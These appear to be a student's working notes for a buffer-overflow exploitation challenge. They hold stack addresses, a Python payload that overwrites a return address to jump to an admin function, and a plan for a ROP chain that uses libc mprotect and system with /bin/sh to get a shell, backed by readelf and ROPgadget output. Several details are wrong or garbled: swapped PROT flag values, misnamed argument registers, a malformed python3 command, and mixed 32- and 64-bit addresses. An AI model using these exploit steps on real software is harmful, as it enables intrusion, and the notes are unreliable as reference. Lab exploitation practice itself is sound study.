





gets = 0x00000000004011df
Instruction of isAdmin = 0x080492bc
&name = 0x7fffffffd900

This is THE FUNC WE WANT to overwrite!!!
0x08049299

Register:
$rsp = 0x7fffffffd300 => 6 bytes used
$rbp = 0x7fffffffdb00

previous value of $rsp (stack pointer) = 0x08049294
get to print func

Main stack function:
$rsp = 0xffffc590
just after the jump to printName = 0x00000000 0040116e

get to thsi function: 0x0000000000401146 (main)

TOOD: Need to manipulate the return value to jump to welcomeAdmin

0xffffc58c - 0xffffc56c = 32 bytes needed

python3 "import sys; sys.stdout.buffer.write(28 * b'C' + b'\x4a\x93\x04\08')" > ./challenge

--------------------------------------------------------------------
Address randomisation occurs -> need to update locally

Interesting how the make file did not compile it automatically to 64bit
(x64) and resort to x86 (32 bits) instead

Further supported by the fact that the challenge binary is huge 😭

Static linking means we can use the libc binaries

Notice that the main function and f function does not have a stack canary!!

Attack:
We will make the stack executable by using the function
mprotect within libc to remove stack execution protection.

Then insert remote shell

TODO:
We need to know how mprotect function works
Page aligned address
<https://man7.org/linux/man-pages/man2/mprotect.2.html>

`int mprotect(addr[.size],    size,            protection);`
registers:      RDI ,         RSX,        ,     RDI

PROT_READ = 4
PROT_WRITE = 2
PROT_EXEC = 1
protection = 0x7

dl_pagesize = (little endian): 0x00 10 00 00 00 00 00 00
            = 0x 00 00 00 00 00 00 10 00
            = 4096 bytes

__libc_stack_end = 0x0049fa38
puts = 0x0040a780

0x0000000000402081 : pop rdi ; ret

ROP commands:

ROPgadget --binary /lib32/libc.so.6 | grep -Pi 'pop edi'

readelf -s /lib32/libc.so.6 | grep exit
   458: 0017edd0    34 FUNC    GLOBAL DEFAULT   14 atexit@GLIBC_2.0
   582: 0003ead0    33 FUNC    GLOBAL DEFAULT   14 exit@@GLIBC_2.0
   739: 00040210   198 FUNC    WEAK   DEFAULT   14 on_exit@@GLIBC_2.0
   795: 0009a160    12 FUNC    GLOBAL DEFAULT   14 thrd_exit@GLIBC_2.28
   797: 0009a160    12 FUNC    GLOBAL DEFAULT   14 thrd_exit@@GLIBC_2.34
  1835: 000e6890    56 FUNC    GLOBAL DEFAULT   14 _exit@@GLIBC_2.0
  2490: 001729a0    56 FUNC    GLOBAL DEFAULT   14 svc_exit@GLIBC_2.0
  2957: 0017ee00    33 FUNC    GLOBAL DEFAULT   14 quick_exit@GLIBC_2.10

readelf -s /lib32/libc.so.6 | grep 'system'
  1151: 00052220    55 FUNC    WEAK   DEFAULT   14 system@@GLIBC_2.0

strings -a -t x /lib32/libc.so.6 | grep -Pi 'bin/sh'
 1c6e52 /bin/sh

readelf -s /lib32/libc.so.6 | grep -Pi 'fgets' 
    78: 0007a1e0   440 FUNC    WEAK   DEFAULT   14 fgets@@GLIBC_2.0
   110: 0007a1e0   440 FUNC    GLOBAL DEFAULT   14 _IO_fgets@@GLIBC_2.0
  1260: 00151450   479 FUNC    GLOBAL DEFAULT   14 fgetsgent@@GLIBC_2.10
  2231: 0015e110    61 FUNC    WEAK   DEFAULT   14 fgets[...]@@GLIBC_2.0
  2616: 00085e00   159 FUNC    WEAK   DEFAULT   14 fgets[...]@@GLIBC_2.1
  3131: 0015df30   479 FUNC    GLOBAL DEFAULT   14 fgetspent@@GLIBC_2.0

